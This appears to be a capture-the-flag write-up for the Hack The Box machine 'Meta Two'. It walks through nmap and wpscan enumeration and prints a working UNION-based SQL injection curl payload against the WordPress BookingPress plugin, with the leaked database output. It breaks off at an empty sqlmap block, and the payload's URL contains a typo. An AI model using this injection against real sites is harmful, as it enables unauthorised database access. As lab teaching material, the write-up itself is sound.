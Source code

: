 ```yaml
---
title: Meta Two
---
```


Connection and nmap
-------------------

First we connect to the openvpn that HTB provides us and spin the
machine Then we will use nmap, as usual for enumeration:

``` {.shell results="output" wrap=""quote""}
sudo nmap -sC -sV -T4 10.10.11.186
```

The options are following: -sC: to use the default scripts -sV: probes
the open ports for system information -T4: to define the aggressiveness
of the scan

First steps
-----------

We can gather that there are 3 open ports: 21 (ftp), 22 (ssh) and 80
(http).

The version of OpenSSH that is being used does not seem to be vulnerable
but we can try other things such as connecting through ftp:

``` {.shell results="output" wrap=""quote""}
ftp 10.10.11.186
```

and trying to log as anonymous. This does not work.

So we are left with the http service which we know that is nginx/1.18.0
and the hostname is <http://metapress.htb/>.

We then have to go to /etc/hosts and append the ip and hostname using
any text editor. This allows us to open the hostname in the browser
without any problem.

Of course this is true for Linux (which you probably should be using),
in Windows is a little more complicated and I struggled to be able to do
this the first time. I tried to change the host file in System32, then
flush the dns and nothing worked. Finally I simply installed firefox in
WSL2 Kali and I use VcXsrv to view all GUI apps.

One way or another we should be able to browse the page now.

Looking for vulnerabilities
---------------------------

We can look at the source code and it does not seem to be leaking any
credentials but we can see it\'s a Wordpress site. We can play around
with the forms and explore a little. Now we will use wpscan which is a
command line tool for Wordpress security.

``` {.shell}
wpscan --url http://metapress.htb
```

You can look them up in <https://wpscan.com/wordpress/562> and go
through each of them but if we go back to the source code of the events
page we can see that is using a plugin called Bookingpress and filter
our search. In the same page we can see that there is a SQL injection
vulnerability and a proof of concept. In the curl command that is
provided we can see that is taking advantage of Wordpress nonces, which
we can look in the source code such as the one in the generateSpamCatcha
function.

There is a lot of information there but the first thing that catches the
eye is the fact that is telling us that the version of Wordpress (5.6.2)
is identified as insecure. So we will look for the vulnerabilities
associated with this version.

So the command we have to use would look like something like this:

``` {.shell}
curl -i 'http://metapress.htb.com/wp-admin/admin-ajax.php'--data
'action=bookingpress_front_get_category_services&_wpnonce=1b624223cc&category_id=29&total_service=-7507)
UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,-5,-5,-5,-5,-5,-5--
-'
```

You should replace the nonce with the one that you can find in the
source code, and the output will be like this:

> HTTP/1.1 200 OK Server: nginx/1.18.0 Date: Thu, 23 Mar 2023 07:08:14
> GMT Content-Type: text/html; charset=UTF-8 Transfer-Encoding: chunked
> Connection: keep-alive X-Powered-By: PHP/8.0.24 X-Robots-Tag: noindex
> X-Content-Type-Options: nosniff Expires: Wed, 11 Jan 1984 05:00:00 GMT
> Cache-Control: no-cache, must-revalidate, max-age=0 X-Frame-Options:
> SAMEORIGIN Referrer-Policy: strict-origin-when-cross-origin
>
> \[{\"bookingpress~serviceid~\":\"10.5.15-MariaDB-0+deb11u1\",\"bookingpress~categoryid~\":\"Debian
> 11\",\"bookingpress~servicename~\":\"debian-linux-gnu\",\"bookingpress~serviceprice~\":\"\$1.00\",\"bookingpress~servicedurationval~\":\"2\",\"bookingpress~servicedurationunit~\":\"3\",\"bookingpress~servicedescription~\":\"4\",\"bookingpress~serviceposition~\":\"5\",\"bookingpress~servicedatecreated~\":\"6\",\"service~pricewithoutcurrency~\":1,\"img~url~\":\"[http:\\/\\/metapress.htb\\/wp-content\\/plugins\\/bookingpress-appointment-booking\\/images\\/placeholder-img.jpg](http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg)\"}\]

Now we can use sqlmap, which is a tool for automating the process of
detecting and exploiting SQL injection vulnerabilities. We can use it to
identify the database management system, enumerate databases, tables and
columns, extract the data and even run commands.

``` {.shell results="output" wrap=""quote"" exports="both"}
```
